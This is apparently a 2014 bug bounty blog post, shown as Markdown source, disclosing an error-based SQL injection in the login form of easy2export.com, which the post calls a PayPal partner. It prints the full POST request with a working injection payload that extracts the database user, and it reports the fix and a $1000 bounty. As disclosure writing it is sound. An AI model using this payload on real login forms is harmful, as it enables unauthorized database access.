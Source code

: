 ```yaml
---
layout: post
title: "sqli in paypal partner"
date: 2014-11-22T07:14:07-05:00
description: "error based sql injection in easy2export.com"
---
```


**Easy2Export** is one of paypal partner website, yeah it is! [[..]](http://www.ecommercebytes.com/cab/abn/y13/m12/i24/s04)

<p align="center">
<img src="/assets/images/yeah-m.jpg">
</p>

<br>
At first try, I tried to test their login form. Luckily after a few minutes of testing, I found a critical POST SQL Injection!


```
http://easy2export.com/index.php/site/login

POST /index.php/site/login HTTP/1.1
Host: easy2export.com
…
LoginForm[username]=’ or 1 group by concat_ws(0x3a,user(),floor(rand(0)*2)) having min(0) or 1–+&LoginForm[password]=’&LoginForm[accounttype]=sub&LoginForm[rememberMe]=0&yt0=
```

The code below shows the final request plus the SQL Query `’ or 1 group by concat_ws(0x3a,user(),floor(rand(0)*2)) having min(0) or 1–+` which I'm trying to get the database user which was shown in the picture below.

<br>
<p align="center">
<img src="/assets/images/easy2export-sql-injection1.png">
</p>
<br>
I reported the said vulnerability to PayPal and they fixed it immediately.
I was awarded with a 1000$ bounty for this and It took a month for them to send the bounty.**
<p align="center">
<img src="/assets/images/paypal-bounty.png">
</p>

Thanks for reading! stay tuned for more blog posts.

